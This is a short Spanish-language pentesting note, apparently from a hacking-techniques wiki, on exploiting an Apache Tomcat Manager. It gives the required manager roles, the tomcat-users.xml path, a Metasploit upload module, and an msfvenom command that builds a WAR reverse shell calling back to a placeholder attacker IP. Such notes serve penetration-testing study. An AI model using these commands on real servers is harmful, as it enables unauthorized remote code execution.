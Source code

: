 Por último, si tienes acceso al Tomcat app Manager puedes subir y desplegar un archivo .war (ejecutable).

### Limitaciones

Solo podrás desplegar un archivo WAR si tienes **suficientes privilegios** (roles: **admin**, **manager**, **manager-script**).

Estos detalles se pueden ver normalmente en:

`/usr/share/tomcat9/etc/tomcat-users.xml`

### Metasploit

```
use exploit/multi/http/tomcat_mgr_upload
```

### MSFVenom Reverse Shell

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[Tu IP] LPORT=[Puerto] -f war -o revshell.war
```
